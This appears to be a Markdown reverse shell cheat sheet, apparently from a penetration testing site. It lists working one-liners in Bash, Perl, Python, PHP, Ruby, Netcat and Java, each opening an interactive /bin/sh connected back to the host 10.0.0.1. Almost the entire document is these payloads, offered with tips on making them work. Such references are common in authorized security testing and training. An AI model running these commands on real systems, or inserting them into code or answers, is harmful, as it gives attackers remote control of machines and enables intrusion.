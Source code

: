 # Reverse Shell Cheatsheet

## Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

## Python

This was tested under Linux / Python 2.7:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

## Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
